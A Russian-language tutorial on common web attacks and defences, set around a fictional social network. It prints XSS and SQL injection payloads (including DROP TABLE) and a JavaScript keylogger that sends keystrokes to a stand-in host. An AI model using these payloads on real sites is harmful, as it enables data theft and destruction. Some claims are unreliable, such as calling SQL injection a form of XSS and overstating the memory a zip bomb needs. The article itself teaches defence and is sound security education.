






## Кратко

Веб-приложения, как и любые другие, можно «взломать». Если в приложении есть место, куда можно ввести текст, загрузить изображение, передать какую-то информацию, злоумышленники могут использовать это место для атаки.

Уязвимостей у веб-приложений много. В этой статье мы детально рассмотрим лишь самые распространённые.

<aside>

🚨 Использовать уязвимости веб-сервисов для их взлома — **противозаконно**!

</aside>

Не используйте упомянутые здесь атаки для непосредственно атак. Используйте знания о них только для того, чтобы уметь от них защищаться.

Под _атакой_ мы будем подразумевать любое действие, приносящее вред пользователям: утечка их данных, неправильная работа сервиса, невозможность воспользоваться сервисом — всё это последствия различных атак.

Действия, непосредственно или косвенно приводящие к атаке, мы будем называть _вредоносными_. Людей, которые атаки проводят — _злоумышленниками_.

## Click Jacking

Первая атака, которую мы рассмотрим — это _click jacking_.

Представьте, что вы разрабатываете соцсеть, скажем, Switter. Для регистрации вы просите пользователей указывать номер телефона и имя — персональные данные.

Если вашей соцсетью пользуется 10 тысяч человек, значит в ваших базах хранится 10 тысяч имён с телефонными номерами.

Допустим, злоумышленники хотят получить доступы к этим номерам. Они могут сделать следующее:

- Создать вредоносную страницу с каким-то интерактивным элементом, например, мемасом с брендированной Switter кнопкой «Нравится» под ним;
- Положить прозрачный [`<iframe>`](/html/iframe/) с загруженным в него Switter поверх вредоносной страницы;
- Сделать так, чтобы пользователю захотелось нажать на «Нравится»;
- Сделать так, чтобы при нажатии на «Нравится» пользователь на самом деле нажал бы на какую-то кнопку в `<iframe>`, который лежит поверх.
- В зависимости от реализации дальше пользователя могут попросить либо авторизовать какое-то действие в соцсети, либо аутентифицироваться в ней.
- По итогу пользователь может случайно отправить свои данные, даже не заметив этого.



Дело может не ограничиваться соцсетью — в прозрачном `<iframe>` может быть и банковская система, а злоумышленники могут таким образом отправлять деньги пользователей на свои счета.

### Как защититься

Используйте HTTP-заголовок `X-Frame-Options`.

Этот серверный заголовок может разрешать или запрещать отображение страницы внутри фрейма. У него есть три значения:

- `DENY` — никогда не показывать страницу внутри фрейма.
- `SAMEORIGIN` — разрешить показ страницы внутри фрейма, но только если родительский документ имеет тот же источник.
- `ALLOW-FROM domain` — разрешить показ страницы внутри фрейма, только если родительский документ находится на указанном домене.

Если в заголовках Switter мы укажем `X-Frame-Options: SAMEORIGIN`, то соцсеть будет загружаться в `iframe` только внутри самой соцсети. Все остальные домены не смогут отобразить её внутри `iframe`.

Так, кстати, делает настоящий Twitter.

### Интерактивный пример

На сайте application.security собраны интерактивные примеры подобных уязвимостей. Каждый из примеров расписан по шагам, это помогает лучше понять, в какой момент и что пошло не так. Посмотрите [на пример clickjacking](https://application.security/free-application-security-training/owasp-top-10-clickjacking) в 18 шагов :–)

## Cross Site Scripting, XSS

_XSS_ — это внедрение вредоносного кода на страницы атакуемого сервиса.

Продолжим пример с нашей слабозащищённой соцсетью Switter. Допустим, Switter предлагает поиск по твитам (свитам?..) пользователей.

- Злоумышленник вводит `<script>alert('XSS!');</script>` в поле поиска;
- Switter перебрасывает его на страницу поиска: `http://switter.com/search?q=<script>alert('XSS!');</script>`, где под полем должна быть поисковая выдача.

  - Если по запросу, ничего не нашлось, то под полем выводится текст «По запросу `...` ничего не нашлось».

- В нашем случае `<script>alert('XSS!');</script>` встраивается на страницу, и срабатывает [`alert()`](/js/alert/).



Конечно, вместо `alert()` злоумышленники могут написать более изощрённый скрипт, который будет, например, рассылать спам от имени пользователя.

Атака выше — это пример _отражённого XSS_ (_reflected XSS)._ Отражённого, потому что его действие сразу же отражается на поведении страницы. Кроме него есть _хранимый (stored) XSS_, о нём поговорим чуть дальше.

### Как защититься

<aside>

🛡 Экранировать любой пользовательский ввод!

</aside>

Каким бы маленьким и незначительным ни казалось поле ввода, всё, что пользователь пишет, следует экранировать.

_Экранирование (escaping)_ — это замена специальных символов (например, которые браузер может принять за теги) другими, безопасными.

При экранировании запись `<script>alert('XSS!');</script>` превратится в `&lt;script&gt;alert('XSS!');&lt/script&gt;`. Такую запись браузер не распознает как тег или скрипт.

Для экранирования пользовательского ввода в JS следует использовать:

- `encodeURI()` — чтобы кодировать URI-адрес
- `encodeURIComponent()` — кодировать часть URI-адреса, например, `searchQuery`,
- специальные библиотеки для замены `<`, `>`, `'`, `"` и других специальных символов.

Также на сервере следует проверять и при необходимости экранировать все данные, приходящие от клиента.

### Интерактивный пример

Взгляните на [пример DOM XSS](https://application.security/free-application-security-training/owasp-top-10-dom-cross-site-scripting) и пример [отражённого XSS](https://application.security/free-application-security-training/owasp-top-10-reflected-cross-site-scripting) на application.security.

## SQL-Injection

_SQL-инъекции (injection)_ — это один из видов XSS.

Их суть заключается в доступе к данным атакуемого сервиса или их изменению. Ну или удалению, всякое бывает.

Вернёмся снова к нашей несчастной соцсети. Когда злоумышленники обнаружили, что могут вызывать отражённые XSS на страницах, они подумали, что неплохо бы получить доступ ко всем пользовательским данным.

Допустим, они узнали, что БД у Switter — это MySQL. Тогда:

- Злоумышленники могут найти форму на сайте, данные из которой отправляются в базу;
- Написать SQL-код, который будет извлекать данные из какой-то таблицы;
- Подобрать имя таблицы так, чтобы оно совпадало с именем, используемым в Switter;
- Получить все данные из этой таблицы или удалить их.

К примеру, злоумышленники нашли форму логина. Они знают, что эта форма связана с таблицей пользователей. При логине они могут внедрить, например, такой код: `UNION SELECT * FROM users`.

Тогда настоящий запрос в базу дополнится командой, и если таблица с пользователями называется `users`, то злоумышленники получат все данные пользователей соцсети.

А можно было и так: `DROP TABLE users`; или даже: `DROP DATABASE whole_data_base`.

### Как защититься

<aside>

🛡 Экранировать любой пользовательский ввод!

</aside>

Экранировать SQL-инъекции на клиенте, пожалуй, бессмысленно. Однако у серверных разработчиков обязательно должны быть инструменты, которые позволят работать с пользовательским вводом безопасно.

### Интерактивный пример

Взгляните на [пример SQL-инъекции](https://application.security/free-application-security-training/owasp-top-10-sql-injection) на application.security.

## Stored XSS

_Хранимый (stored) XSS_ — это вредоносный код, который каким-то образом сохранился в атакуемом сервисе. Он мог быть записан в базу, сохранён на диске в виде текста, изображения, мог сохраниться в оперативной памяти сервера.

Главное его отличие от отражённого XSS в «отложенности» действия. Хранимый XSS может воспроизводиться сильно после атаки, а также несколько раз.

Для примера снова вернёмся к нашей злосчастной соцсети Switter. Чтобы отправить твит (свит?.. 😃), пользователи вводят текст в форме и отправляют эту форму на сервер.

Если злоумышленники знают, что Switter не экранирует пользовательский ввод, они могут сделать следующее:

- Написать вместо текста сообщения нечто вроде `<script>alert('XSS!')</script>`;
- Отправить свит на сервер, чтобы он сохранился в базе;
- Все пользователи, которые подписаны на аккаунт, с которого был отправлен этот твит, увидят в своих лентах это сообщение.
- А так как сервис выводит всё без экранирования, каждый пользователь, у которого на экране появится этот свит, будет задет атакой и увидит `alert()`


Хранимый XSS очень опасен. Злоумышленники могут его использовать на конкретных страницах, чтобы красть данные, производить действия от имени пользователя и прочее, уже сильно позже самой атаки.

От него также сильно труднее избавиться, потому что для этого требуется очистить данные в БД или в другом хранилище.

Подобный вредоносный код, к слову, может самораспространяться, используя другие уязвимости сервиса.

### Как защититься

Да, вы угадали:

<aside>

🛡 Экранировать любой пользовательский ввод!

</aside>

### А ещё использовать `Content-Security-Policy`

Кроме всего прочего, против XSS рекомендуется использовать серверный заголовок `Content-Security-Policy`, который может запретить исполнение скриптов из ненадёжных источников.

Значение заголовка — это список доверенных источников, из которых пользователь может получать контент.

Например:

```js
Content-Security-Policy: default-src 'self' *.trusted.com
// Значит, что мы разрешаем получать контент со своего домена
// и всех своих поддоменов, а также от домена trusted.com
// и всех его поддоменов.
```

<aside>

🦄 Больше примеров HTTP-заголовков для настроек безопасности и их использования можно найти в статье [Security Headers](https://web.dev/security-headers/).

</aside>

### Интерактивный пример

Взгляните на [пример stored XSS](https://application.security/free-application-security-training/owasp-top-10-stored-cross-site-scripting) на application.security.

## Key Logger

Одна из разновидностей хранимого XSS — это _key logger_. Представим, что в прошлый раз злоумышленники оставили не `alert()`, а программу, которая отправляет куда-то всё, что вы набираете на клавиатуре.

```js
document.body.addEventListener('keypress', (e) => {
  // ...Злоумышленники собираются все данные о пользователе,
  // которые им нужны: логин, время события, что угодно.
  const data = { ...user, key: e.key }

  // ...Переводят все данные в строку:
  const params = new URLSearchParams()

  // ...И «запрашивают картинку», но на самом деле
  // отправляют запрос на свой сервер с данными о пользователе.
  new Image().src = 'https://malicious.site?data=' + encodeURIComponent(params)
})
```

Таким образом у пользователя могут украсть пароли и другие персональные данные.

## Cross-Site Request Forgery, CSRF

_Межсайтовая подделка запроса (Cross-Site Request Forgery, CSRF)_ — атака, при которой злоумышленники могут совершать действия как бы от лица пользователя.

Вернёмся к нашей совсем уж дырявой соцсети Switter. С последним обновлением Switter завёз пользователям возможность не только пересылать друг другу сообщения в личных переписках, но и деньги.

Злоумышленники знают, что после логина в Switter у пользователя остаются куки, которые потом используются для аутентификации. Они могут:

- Заманить пользователя, который был аутентифицирован в Switter, на вредоносную страницу;
- Используя его или её куки отправить запрос к Switter с «просьбой» переслать денег на конкретный аккаунт;
- Так как пользователь «аутентифицирован» запрос считается «валидным», пользователь теряет деньги.



Проблемы здесь две:

- Злоумышленники могли увидеть куки пользователя и таким образом выдать себя за него.
- Сервису Switter достаточно аутентификации для перевода денег, он не требует авторизации запроса.

Авторизацию не следует путать с аутентификацией.

- _Аутентификация_ — подтверждение личности (Вася — это действительно Вася).
- _Авторизация_ — подтверждение, что у пользователя хватает прав, чтобы выполнить какое-то действие (Марина действительно хочет перевести деньги, вот подтверждение).

### Как защититься

В первую очередь [куки](/js/cookie/) следует выставлять так, чтобы они были видны лишь для сервиса, который их выставил. Для этого можно использовать `SameSite Cookie`:

```js
Set-Cookie: key=value; SameSite=Strict
```

Также, если с куками не должны работать клиентские скрипты, их можно спрятать:

```js
Set-Cookie: key=value; HttpOnly
```

Это сделает куку видимой только для сервера и самого браузера (но в клиентском JS её использовать будет нельзя).

Также можно использовать CSRF-токены для подписи каждого запроса, который необходимо авторизовать. Такой токен гарантирует, что запрос был отправлен пользователем не случайно.

```html
<form action="/send_money/" method="POST">
  <!--  Этот токен может быть ассоциирован с конкретной формой
        или даже с конкретным запросом для каждого пользователя.
        Злоумышленнику неизвестно, по какому принципу токен был сгенерирован,
        поэтому и подделать его у него гораздо меньше шансов. -->
  <input type="hidden" name="CSRF" value="token-generated-by-server">

  <!-- ...Остальная форма -->
</form>
```

Для [AJAX-запросов](/tools/api/) следует указывать CSP и CORS-политику.

_Cross-Origin Resource Sharing, CORS_ — определяет, доступ к каким ресурсам есть у запросов с другого домена _(origin)_.

### Интерактивный пример

Взгляните на [пример CSRF](https://application.security/free-application-security-training/owasp-top-10-cross-site-request-forgery) на application.security.

## Denial of Service, DoS

Дос-атака _(Denial of Service, DOS)_ — атака, которая старается довести атакуемый сервис до отказа.

В случае с Switter целью может быть, чтобы пользователи не могли ни открыть ленту, ни отправить новый свит.

Как правило, чтобы задосить веб-сервис, надо нагрузить его таким количеством запросов, чтобы он просто физически не мог их все обработать. Сделать это злоумышленникам проще всего с нескольких машин, отправляя пачки запросов одновременно.

Когда дос-атака распределена на несколько машин (потоков, пачек, whatever), она называется распределённой _(distributed DoS, DDoS)_.



### Как защититься

Стопроцентного способа защититься нет, но можно попробовать:

- Закрыться рейт-лимитером — частью программы, которая блокирует трафик по достижению лимита запросов. Лимит может выставляться, например, конкретному пользователю и IP-адресу. (Но это не сработает с DDoS.)
- Нарастить ресурсы — увеличить пропускную способность, количество запросов, которые сервис может обработать.
- Динамически заменять части сервиса, которые отказали, менять IP.
- Перенаправить DDoS трафик на атакующего.
- Использовать распределённые системы, чтобы лишить злоумышленников одной единственной цели.

## Slowloris

_Slowloris_ — это из разновидностей дос-атаки, при которой на сервер отправляется запрос, а данные пересылаются так <!-- yaspeller ignore:start -->ме-е-е-е-е-едленно<!-- yaspeller ignore:end -->, насколько это возможно

Так как данные всё ещё пересылаются, сервер не может просто оборвать соединение. Но и заняться другими запросами он тоже не может, потому что занят этим.

Когда какое-то соединение всё же обрывается, атакующий инициализирует ещё одно. С помощью этой атаки можно используя лишь одну машину довести сервис до отказа.



### Как защититься

- Указывать тайм-ауты для запросов, после которых соединение может быть разорвано.
- Использовать рейт-лимитеры для блокировки подозрительного трафика.

## Data-bombs

Бомбами чаще всего бывают архивы или изображения. Они называются бомбами, потому что при разархивировании (в случае с архивами) или декомпрессии (в случае с изображениями) резко увеличиваются в размерах.

Самая известная бомба — это самоархивированный архив 42.zip. Он весит всего 42 КБ, но если начать его распаковывать, то он займёт 4.3 ГБ места на диске, а сам процесс распаковки — 4.5 **петабайта** оперативной памяти.

### Как защититься

Зависит оттого, какие данные сервис принимает и на какой технологии работает сервер. Все методы защиты здесь исключительно лежат в области серверной разработки.

Лучшее (и единственное), что могут сделать фронтенд-разработчики — указывать ограничения на загружаемые файлы по MIME-типу и размеру.

## Man in the Middle

«Чувак посередине» _(Man in the Middle, MiM)_ — атака, которая заключается в просмотре (а возможно и подмене) трафика между клиентом и сервером.

Представим, что пользователь Switter (если остался хотя бы один после всех тех дыр, что мы рассмотрели) решает зайти в свой аккаунт из кафе.

В кафе он или она использует публичную Wi-Fi сеть и заходит в свой аккаунт. К сожалению, в том же кафе сидит злоумышленник, который пропускает весь трафик в этой сети через свой компьютер. А значит, может узнать логин и пароль пользователя.

(Мы сильно упрощаем, но грубо говоря, злоумышленник убедил все компьютеры в сети, что именно его ноутбук — это роутер. В итоге все запросы ото всех пользователей этой сети проходят через его ноутбук.)



Проблема в том, что Switter использует протокол HTTP. При использовании HTTP всё общение между клиентом и сервером не зашифровано и происходит в открытом виде.

Даже если сервер и клиент будут использовать алгоритм [RSA](/tools/encoding/), чтобы шифровать общение, то всё равно на самое первое сообщение от клиента:

— Привет! Давай общаться приватно.

...Серверу придётся ответить текстом:

— Да, давай. Вот мой _публичный ключ_, который ты можешь использовать, чтобы подписывать свои сообщения. Тогда только я их смогу прочесть.

<aside>

🔐 _RSA_ — это алгоритм, который использует математику с большими простыми числами, чтобы кодировать информацию.

</aside>

Мы не будем вдаваться в подробности, скажем лишь, что для раскодирования используется так называемый _приватный ключ_, который есть лишь у того, кому предназначается сообщение. _Публичным ключом_ сообщение зашифровывается.

Проблема в том, что если злоумышленник знает, когда и какой ключ был отправлен, он может подменить его на свой.

### Как защититься

<aside>

🛡 Использовать HTTPS!

</aside>

HTTPS это HTTP, который использует шифрование. Данные передаются поверх особых защитных транспортных протоколов [TLS](https://ru.wikipedia.org/wiki/TLS) (а до 2015 года — [SSL](https://ru.wikipedia.org/wiki/SSL)), что делает их недоступными для злоумышленника.

Это работает, потому что как клиент, так и сервер используют ключи сертифицированного центра, а не сгенерированные самостоятельно. Если злоумышленник решит подменить хотя бы один бит в сообщении или ключе — клиент или сервер узнают, что общение скомпрометировано.

Атака всё ещё может сработать, если пользователь, например, пренебрегает предупреждением браузера, что соединение может быть не защищено.

Ещё одна проблема — всё держится на доверии. Если организация, подписывающая сертификаты, по какой-либо причине компрометирует их, то все клиенты и серверы, использующие эти сертификаты, будут подвержены риску.
